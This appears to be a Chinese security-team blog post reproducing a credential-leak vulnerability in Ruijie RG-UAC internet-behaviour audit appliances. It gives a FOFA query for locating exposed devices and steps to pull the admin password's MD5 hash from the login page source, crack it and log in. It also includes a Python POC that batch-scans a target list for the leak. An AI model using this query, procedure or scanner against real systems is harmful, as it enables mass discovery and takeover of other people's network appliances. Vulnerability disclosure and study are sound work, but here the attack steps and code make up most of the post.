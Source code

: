 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/LbSPzt__mKdNN83RhJ2bwA)

**点击蓝字**

![图片](https://mmbiz.qpic.cn/mmbiz_gif/4LicHRMXdTzCN26evrT4RsqTLtXuGbdV9oQBNHYEQk7MPDOkic6ARSZ7bt0ysicTvWBjg4MbSDfb28fn5PaiaqUSng/640?wx_fmt=gif&tp=webp&wxfrom=5&wx_lazy=1)

**关注我们**

  

  

**_声明  
_**

本文作者：PeiQi  
本文字数：1030

阅读时长：5~6分钟

附件/链接：点击查看原文下载

**本文属于【狼组安全社区】原创奖励计划，未经许可禁止转载**

  

由于传播、利用此文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，狼组安全团队以及文章作者不为此承担任何责任。

狼组安全团队有对此文章的修改和解释权。如欲转载或传播此文章，必须保证此文章的完整性，包括版权声明等全部内容。未经狼组安全团队允许，不得任意修改或者增减此文章内容，不得以任何方式将其用于商业目的。

  

  

**_前言_**

  

WgpSec·玄狼 漏洞复现招收师傅 

有意者简历投至 

**peiqi@wgpsec.org  
**

  

一、

**_漏洞描述_**

锐捷RG-UAC统一上网行为管理审计系统存在账号密码信息泄露,可以间接获取用户账号密码信息登录后台

  

二、

**_漏洞影响_**

锐捷RG-UAC统一上网行为管理审计系统

  

三、

**_漏洞复现_**

使用FOFA语句包含关键字查找FOFA语句（仅供学习参考，请勿非法利用）  

  

 **title="RG-UAC登录页面" && body="admin"**

  

登录页面如下  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

F12查看网页源码搜索关键字  admin

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

使用 password值 md5解密  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

使用admin作为用户名，破解的密码即可登录后台系统

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

四、

**_漏洞利用POC_** 

  

```
`import requests``import sys``import random``import re``from requests.packages.urllib3.exceptions import InsecureRequestWarning``def title():` `print('+------------------------------------------')` `print('+  \033[34mPOC_Des: http://wiki.peiqi.tech                                   \033[0m')` `print('+  \033[34mVersion: 锐捷RG-UAC统一上网行为管理审计系统                             \033[0m')` `print('+  \033[36m使用格式:  python3 poc.py                                            \033[0m')` `print('+  \033[36mFile         >>> ip.txt                             \033[0m')` `print('+------------------------------------------')``def POC_1(target_url):` `vuln_url = target_url` `headers = {` `"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.111 Safari/537.36",` `}` `try:` `requests.packages.urllib3.disable_warnings(InsecureRequestWarning)` `response = requests.get(url=vuln_url, headers=headers, verify=False, timeout=5)` `if "super_admin" in response.text and "password" in response.text and response.status_code == 200:` `print("\033[32m[o] 目标 {}存在漏洞 ,F12查看源码获取密码md5值 \033[0m".format(target_url))` `else:` `print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))` `except Exception as e:` `print("\033[31m[x] 目标 {}不存在漏洞 \033[0m".format(target_url))``def Scan(file_name):` `with open(file_name, "r", encoding='utf8') as scan_url:` `for url in scan_url:` `if url[:4] != "http":` `url = "http://" + url` `url = url.strip('\n')` `try:` `POC_1(url)` `except Exception as e:` `print("\033[31m[x] 请求报错 \033[0m".format(e))` `continue``if __name__ == '__main__':` `title()` `file_name  = str(input("\033[35mPlease input Attack File\nFile >>> \033[0m"))` `Scan(file_name)`
```

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

  

**_作者_**

  

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

  

PeiQi

   感谢观看啦~  

  

  

**_扫描关注公众号回复加群_**

**_和师傅们一起讨论研究~_**

  

**长**

**按**

**关**

**注**

**WgpSec狼组安全团队**

微信号：wgpsec

Twitter：@wgpsec

  

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)

![图片](data:image/gif;base64,iVBORw0KGgoAAAANSUhEUgAAAAEAAAABCAYAAAAfFcSJAAAADUlEQVQImWNgYGBgAAAABQABh6FO1AAAAABJRU5ErkJggg==)
